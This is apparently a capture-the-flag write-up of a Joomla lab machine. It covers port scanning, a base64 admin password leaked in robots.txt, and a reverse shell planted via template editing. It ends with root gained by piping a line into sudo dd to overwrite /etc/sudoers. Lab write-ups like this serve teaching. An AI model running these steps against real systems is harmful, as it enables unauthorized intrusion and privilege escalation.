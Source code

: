 ```yaml
---
sticker: lucide//candy
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 80   | HTTP    |
We can get this in the scan:

```
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 17 disallowed entries
| /joomla/administrator/ /administrator/ /api/ /bin/
| /cache/ /cli/ /components/ /includes/ /installation/
| /language/ /layouts/ /un_caramelo /libraries/ /logs/ /modules/
|_/plugins/ /tmp/
|_http-title: Home
|_http-favicon: Unknown favicon MD5: 1B6942E22443109DAEA739524AB74123
|_http-generator: Joomla! - Open Source Content Management
```

Let's begin reconnaissance.
# RECONNAISSANCE
---

By looking at the scan we can check the entrance to `/robots.txt` is enabled, let's check it out:

![](images/Pasted%20image%2020250306160644.png)

We got credentials and new entries, let's check the `/administrator` one:

```
admin:c2FubHVpczEyMzQ1
```

![](images/Pasted%20image%2020250306160959.png)

If we try logging into the panel with those credentials, we are unable to do so, that's because the password is encoded using Base64, let's decode:

```bash
echo 'c2FubHVpczEyMzQ1' | base64 -d
sanluis12345
```

So, the correct credentials are:

```
admin:sanluis12345
```

![](images/Pasted%20image%2020250306161139.png)

We are now inside the admin panel, let's look around for a way to get a shell.






# EXPLOITATION
---

After exploring the application for a while, we can check the following:

![](images/Pasted%20image%2020250306161614.png)

We got administrator templates, let's check it out:



![](images/Pasted%20image%2020250306161640.png)

We can modify files, let's try uploading a reverse shell in `/index.php`, once uploaded, start a listener and save the changes:

![](images/Pasted%20image%2020250306161839.png)

We got our shell, let's stabilize it: 

1. python -c 'import pty;pty.spawn("/bin/bash")'
2. /usr/bin/script -qc /bin/bash /dev/null
3. CTRL + Z
4. stty raw -echo; fg
5. reset xterm
6. export TERM=xterm
7. export BASH=bash

![](images/Pasted%20image%2020250306162017.png)

Nice, now let's look for a way to get root access.

# PRIVILEGE ESCALATION
---

We can use linpeas first:

![](images/Pasted%20image%2020250306162512.png)

We found a user with a console: `luisillo`, we can also find this:

![](images/Pasted%20image%2020250306162629.png)

We got a backups folder, let's check it out:

```
www-data@ce239478bbd9:/var/backups/hidden$ ls
otro_caramelo.txt
```

Let's read the file:

```
www-data@ce239478bbd9:/var/backups/hidden$ cat otro_caramelo.txt

Aqui esta su caramelo Joven :)

<?php
// Información sensible
$db_host = 'localhost';
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
$db_name = 'joomla_db';

// Código de conexión a la base de datos
function connectToDatabase() {
    global $db_host, $db_user, $db_pass, $db_name;
    $conn = new mysqli($db_host, $db_user, $db_pass, $db_name);
    if ($conn->connect_error) {
        die("Conexión fallida: " . $conn->connect_error);
    }
    return $conn;
}

// Información adicional
echo "Bienvenido a Joomla en línea!";
?>
```

We got credentials for `luisillo`, let's switch and check the permissions of this user:

```
luisillo@ce239478bbd9:~$ sudo -l
Matching Defaults entries for luisillo on ce239478bbd9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User luisillo may run the following commands on ce239478bbd9:
    (ALL) NOPASSWD: /bin/dd
```

We can check this binary in gtfobins:

![](images/Pasted%20image%2020250306162918.png)

So, we can escalate privileges with the following:

```
echo "luisillo ALL=(ALL:ALL) ALL" | sudo /bin/dd of=/etc/sudoers
```

What we did in here was to edit the `sudoers` file to enable `luisillo` to execute any command while using sudo, let's try:

![](images/Pasted%20image%2020250306163315.png)

Just like that we got root access.

